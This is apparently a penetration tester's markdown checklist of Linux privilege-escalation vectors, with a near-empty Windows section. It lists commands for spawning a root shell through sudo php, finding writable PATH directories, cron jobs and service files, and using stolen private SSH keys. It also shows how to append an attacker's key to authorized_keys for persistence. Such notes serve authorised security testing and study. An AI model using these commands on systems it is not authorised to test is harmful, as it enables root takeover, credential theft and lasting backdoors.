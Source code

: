 ```yaml
---
description: Check list for common vectors to escalate on Linux & Windows. Use index ->
---
```


# Possible privilege escalation vectors - Manual checklist

## Linux check list

### Check for sudo current user privileges

```bash
sudo -l                 #Shows what sudo privileges the user has
sudo su -               #If (ALL:ALL) ALL or privileges on "su", switchs to root user

#user ALL=(ALL) NOPASSWD: /usr/bin/php
sudo php -r “system(‘/bin/sh’);”        #/bin/sh to return root shell but you can execute whatever  ?"-r" runs php code directly from the CLI, "system" is a function used to execute external commands 
```

### Check if sudo version is outdated and vulnerable

```bash
sudo -V | grep "Sudo ver" | grep "1\.[01234567]\.[0-9]\+\|1\.8\.1[0-9]\*\|1\.8\.2[01234567]"
searchsploit sudo 
```

### OS & Kernel outdated

{% hint style="warning" %}
Keep in mind kernel exploits can cause system instability, if this is a production system coordinate with the client first.
{% endhint %}

```bash
cat /etc/os-release 
uname -a

searchsploit versionFound
```

### PATH

If you can write on $PATH directories you may be able to exploit some binaries or libraries.

<pre class="language-bash"><code class="lang-bash"><strong>#Oneliner to check if directories in $PATH are writtable 
</strong><strong>for dir in $(echo $PATH | tr ':' ' '); do [ -w "$dir" ] &#x26;&#x26; echo ";) Can write on $dir" || echo "Can't write on $dir"; done
</strong></code></pre>

### Vulnerable software installed

```bash
dpkg -l         #List software on Debian
rpm -qa         #List software on CentOS
```

### Over-privileged processes&#x20;

```bash
ps -aux    
ps -ef
top            #Dynamic real time
top -n 1       #One snapshot
```

### Writable .service files

If you find any writable `.service` files, you could modify them so they execute your scripts with higher privileges, also you could place a shell to establish a backdoor and maintain persistence.

```bash
#Example on a service config file
ExecStart=/tmp/your_script.sh  #Executes the script on service start
```

### Cron jobs

If you have write permissions to cron jobs you could place a script with a reverse shell which would activate once the timer is up granting us access

&#x20;

```bash
#Some places to check
/etc/crontab
/etc/cron.d/
/var/spool/cron/crontabs/root

```

### Exposed credentials

Some files can contain plain text credentials, its common in config files, logs and user history files (`bash_history` or `PSReadLine` in Windows). We could also check for password reuse as passwords used for non-critical software could also be used for root for example.

### SSH Keys

If we have access to the `.ssh` directory we may find there their private ssh keys and use them to log as the user without credentials with the `-i` flag

```bash
#Common places
/home/user/.ssh/id_rsa
/root/.ssh/id_rsa

#How to use it in our machine
nano id_rsa
chmod 600 id_rsa   #We change privileges so the ssh server doesn't set off the alarms and prevents it from working
ssh user@ip -i id_rsa

```

If we can access to a users `.ssh` directory we could place our public key at\
`/home/user/.ssh/authorized_keys` this way we could have a more stable access as we can ssh into the system, of course after we first exploited and gained a shell.&#x20;

```bash
#First we generate the key pair in our machine with
ssh-keygen -f key

#This will give us 2 files:
#Private "key" wich we will use with ssh -i
#Public key "key.pub" that we will copy into the victim's directory or root
echo "key.pub contents" >> /root/.ssh/authorized_keys
echo "key.pub contents" >> /home/user/.ssh/authorized_keys

ssh root@ip -i key
ssh user@ip -i key 

```







***

## Windows

### Check for vulnerable software installed

```
dir C:\Program Files
```

